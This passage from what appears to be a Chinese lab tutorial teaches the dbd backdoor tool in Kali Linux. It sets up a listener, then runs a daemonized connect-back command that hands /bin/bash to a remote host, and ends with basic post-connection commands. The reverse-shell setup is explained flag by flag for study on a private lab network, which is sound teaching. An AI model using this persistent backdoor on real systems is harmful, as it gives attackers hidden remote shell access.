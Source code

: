 在查看 `Dbd` 选项含义后，我们在 Kali 终端中输入如下命令，进行监听行为：

```
# 使用命令对端口进行监听
dbd -l -p 8080 -v
```
其中命令参数所代表的含义如下列表：

| 参数名称 | 参数所代表的含义                   |
| -------- | ---------------------------------- |
| `-l`     | 用来监听即将传入的连接端口         |
| `-p`     | 连接过程中，服务器侦听的具体端口号 |
| `-v`     | 输出连接时产生的详细信息           |

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1481094638641.png-wm)


接着在另一个 Kali 终端中，输入命令，进行连接交互：

```
# 进行交互
dbd -r 2400 -D on -v -e /bin/bash 192.168.122.101 8080
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1481094716075.png-wm)

在上面的这条命令中，其中参数所代表的具体含义分别为：

| 参数名称 | 参数所代表的含义                               |
| -------- | ---------------------------------------------- |
| `-r`     | 设置计时的具体秒数，其单位为秒                 |
| `-D on`  | 意思是作为后台进程运行                         |
| `-p`     | 连接过程中，监听的具体端口号                   |
| `-v`     | 对连接产生的信息，详细地输出                   |
| `-e`     | 连接成功后，所调用的程序，这里调用 `/bin/bash` |


在输入这条命令结束后，服务器端和客户端建立起了连接，出现了这条命令，即为成功后的标志：

```
# 连接成功后进行交互
connect to 192.168.122.101:8080 from 192.168.122.101:37066 （kali）
```

接着可以在这条命令下，使用 Linux 的基本操作命令，进行系统信息验证，结果如图所示：

```
# 查看当前用户是谁
whoai

# 查看当前路径
pwd

# 查看当前路径下文件
ls

```
